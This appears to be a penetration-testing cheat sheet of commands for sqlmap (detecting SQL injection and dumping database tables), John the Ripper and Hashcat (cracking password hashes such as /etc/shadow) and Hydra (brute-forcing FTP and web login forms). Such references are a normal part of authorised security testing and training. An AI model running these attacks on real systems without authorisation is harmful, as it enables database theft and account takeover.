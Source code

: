 #### Checking for existence of SQL injection
```sh
sqlmap -u ‘http://example.com/view.php?id=1141’ -p id       # GET Method

sqlmap -u ‘http://example.com/view.php’ --data <POST String> -p <parameter>     # POST Method
```
If vulnerable parameter found then you can proceed with extraction of data from database
```sh
sqlmap -u ‘http://example.com/view.php?id=1141’ --dbs     # Getting database names
sqlmap -u ‘http://example.com/view.php?id=1141’ -D <DB_name> --tables   # Getting table names
sqlmap -u ‘http://example.com/view.php?id=1141’ -D <db_name> -T <tbl_name> --columns    # Getting columns
sqlmap -u ‘http://example.com/view.php?id=1141’ -D <DB_name> -T <tbl_name> -C <column_name_comma_separate> --dump # To dump whole table remove column specification from the command and use only --dump option
```
# John-The-Ripper
___
```sh
john --list=formats
john -incremental -users:<users list> <file to crack>       # if you want to crack only certain users from the password database such as /etc/shadow file
john --show crackme     # Check cracked password after completion of cracking session, where crackme is the password database file
john -wordlist=<wordlist> <file to crack>
john -wordlist=<wordlist> -rules <file to crack>        # rules are used for cracking mangling words such as for cat mangling words could be c@t,caT,CAT,CaT
```
# Hydra
___

```sh
hydra -U ftp        # hydra uses module for each service to attack. To get information about a module this command can be used
hydra -L users.txt -P pass.txt <service://server> <options>
hydra -l admin -P pass.txt -f ftp://10.10.10.10        # Stop attacking on finding first successful hit for user admin
hydra  -L users.txt -P passwords.txt <IP> http-post-form "/login.php:user=^USER^&pass=^PASS^:Incorrect credentials" -f -V    # Attacking http post form
```

# Hashcat
___

```sh
hashcat -m 0 -a 0 exam.hash file.dict
hashcat -m 0 -a 0 exam.hash file.dict -r rule/custom.rule       # here rule file contains the rules to creat mangling word such as p@ssword, PaSSworD  https://hashcat.net/wiki/doku.php?id=rule_based_attack 
hashcat -m 0 -a 3 exam.hash ?l?l?l?l?l?a        # https://hashcat.net/wiki/doku.php?id=mask_attack
```
# SMB Enumeration
___
